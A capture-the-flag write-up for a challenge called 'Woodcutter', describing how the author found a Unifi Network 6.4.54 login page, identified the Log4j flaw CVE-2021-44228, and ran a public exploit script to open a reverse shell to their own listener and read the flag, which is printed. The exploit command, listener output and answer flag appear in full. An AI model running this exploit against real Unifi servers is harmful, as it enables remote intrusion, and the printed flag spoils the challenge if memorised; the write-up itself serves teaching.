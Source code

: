 # Woodcutter
> Once upon a time in a quiet forest village, lived a woodcutter named Tom known for his exceptional axe skills. A stranger named Mr. Smith, a software engineer, approached Tom, seeking wood for his Java project, unknowingly sparking an unlikely adventure at the intersection of nature and technology.

## About the Challenge
We were given a website that uses `Unifi Network` version `6.4.54`


[Image extracted text: Password
Remember me
SIGN IN
FORGOT PASSWORD?]


## How to Solve?
Because of the website is using older version of the Unifi network, I immediately searched on Google using the following keyword

```
Unifi 6.4.54 exploit
```


[Image extracted text: unifi 6.4.54 exploit
Github
Videos
Images
News
Shopping
Books
Maps
Flights
Finance
About 393 results (0.33 seconds)
Sprocket Security
https Ilwww sprocketsecurity com
resources
anothe.
Another Log4j on the fire: Unifi
Dec 30, 2021
In this article
we are
going to exploit Log4j vulnerabilities in Unifi software, get
a reverse shell; and leverage our access to add our
Identify Your Attack Surface
Exploitation
Post exploitation - Shadow__
GitHub
https Ilgithub.com
puzzlepeaches
Log4jUnifi
puzzlepeaches/Log4jUnifi: Exploiting CVE-2021-44228 in
Exploiting CVE-2021-44228 in Unifi Network Application for remote code execution and more.
Another Log4j on the fire: Unifi. Why? Proof of concepts for this
Ubiquiti Community
https Ilcommunity ui.com
releases
UniFi-Network-
UniFi Network Application 6.5.54
6.4.54 and earlier 6.4.X versions_
6.3.51 and
Even if there's no known way of exploit the
UniFi Controller with it; that should be considered to be doable.]


It appears that this version is vulnerable to the Log4j vulnerability (CVE-2021-44228). To exploit the website, I am using this [GitHub Repository](https://github.com/puzzlepeaches/Log4jUnifi) to perform a reverse shell by running this command

```
python3 exploit.py -u https://woodcutter.winja.org -i <IP> -p <PORT>
```

And then check our server and voilà! To obtain the flag we need to run `cat /flag.txt` command


[Image extracted text: Listening
on
0.0.0.0 9999
Connection
received
on 52.0.45.29 23843
Ls
bin
cert
data
dl
lib
list
logs
run
system properties default
webapps
work
Ls
automate-web-setup.sh
bin
boot
dev
etc
txt
home
lib
1ib64
media
mnt
opt
proc
root
run
sbin
setup.sh
Srv
startup.sh
sys
usr
var
cat /flag.txt
{Oc6ad466c5800fe77ecl435a38870548
Lo94J-
OK3S-4-THON}
flag
tmp
flag]


```
flag{0c6ad466c5800fe77ec1435a38870548_Lo94J-0K3S-4-TH0N}
```